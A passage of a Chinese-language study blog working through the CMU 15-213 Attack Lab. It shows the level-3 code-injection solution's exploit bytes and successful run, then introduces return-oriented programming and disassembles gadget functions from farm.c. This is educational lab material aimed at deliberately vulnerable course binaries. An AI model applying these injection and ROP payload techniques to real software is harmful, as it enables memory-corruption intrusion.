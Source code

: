 ```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ ./ctarget -q -i <(./hex2raw < ctarget.l3.txt)
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
```

基本上构造出来就对了

好！所有`ctarget`都做完了，**现在是另一种构造攻击了**

### Level 4

**Part II: Return-Oriented Programming**

这种面向返回的攻击要比代码注入攻击要难的多，CMU介绍其主要具有两种技术点

> -  It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
> - It marks the section of memory holding the stack as nonexecutable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault
> 
> 基本是说rtarget的代码采用了课程中提到的两种防范exploit string的方式。randomization的偏移，这使得注入代码不能被定位，此外，它标记了被栈持有的内存段无法被执行。
> 
> 
![sequence of gatget](https://s2.loli.net/2025/08/18/IQMxRrSHa5Pv8om.png)
> 
> ~~为什么不用金丝雀，用了就很难攻击了~~

通过提取function tailing的机器码构建gatget，在farm中包含了一些函数，这些函数的特殊tailing使得他们很适合这种攻击，从名字可以看出，这是tools' farm。

可以尝试一下编译该文件
```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ gcc -c farm.c 
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ objdump -d farm.o > farm.d
```

随便看一个函数
```assembly
00000000000001c8 <addval_187>:
 1c8:	f3 0f 1e fa          	endbr64 
 1cc:	55                   	push   %rbp
 1cd:	48 89 e5             	mov    %rsp,%rbp
 1d0:	89 7d fc             	mov    %edi,-0x4(%rbp)
 1d3:	8b 45 fc             	mov    -0x4(%rbp),%eax
 1d6:	2d 77 31 c7 3f       	sub    $0x3fc73177,%eax
 1db:	5d                   	pop    %rbp
 1dc:	c3                   	ret    
```
可见相对于下面的rtarget莫名其妙调用了很多东西
```assembly
0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	ret    
```
